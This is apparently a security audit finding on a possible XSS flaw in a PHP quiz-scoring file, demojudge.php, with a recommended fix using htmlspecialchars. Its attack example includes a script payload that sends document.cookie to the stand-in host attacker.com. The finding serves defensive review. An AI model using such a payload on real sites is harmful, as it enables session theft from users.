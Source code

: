 #### 📍 **Location:** Multiple files, particularly `demojudge.php` line 145

#### 🔍 **Vulnerable Code:**
```php
if ($per >= 80)
    echo "<h2>" . $per . "%</h2> Congratulations, you've passed the Demo Comprehension Level 1 (DC-1) test!";
else
    echo "<h2>" . $per . "%</h2> You did not pass the Demo Comprehension Level 1 (DC-1) test.";
```

#### 🎯 **Why This Is Dangerous:**

1. **Direct Output**: User-controlled data (`$per`) is directly output to HTML without proper encoding.

2. **Stored XSS Potential**: If the percentage calculation can be influenced by user input, malicious scripts could be stored and executed.

3. **Context Confusion**: The code mixes HTML and PHP output, making it easy to introduce XSS vulnerabilities.

#### 💥 **Attack Example:**
```php
// If $per can be manipulated to contain:
$per = "<script>alert('XSS Attack!'); document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>";

// This would result in:
echo "<h2>" . $per . "%</h2> Congratulations...";
// Output: <h2><script>alert('XSS Attack!'); ...</script>%</h2> Congratulations...
```

#### ✅ **Secure Solution:**
```php
// Proper HTML encoding
if ($per >= 80) {
    echo "<h2>" . htmlspecialchars($per, ENT_QUOTES, 'UTF-8') . "%</h2>";
    echo "Congratulations, you've passed the Demo Comprehension Level 1 (DC-1) test!";
} else {
    echo "<h2>" . htmlspecialchars($per, ENT_QUOTES, 'UTF-8') . "%</h2>";
    echo "You did not pass the Demo Comprehension Level 1 (DC-1) test.";
}

// Or use a template engine like Twig
echo $twig->render('result.html', [
    'percentage' => $per,
    'passed' => $per >= 80
]);
```

---
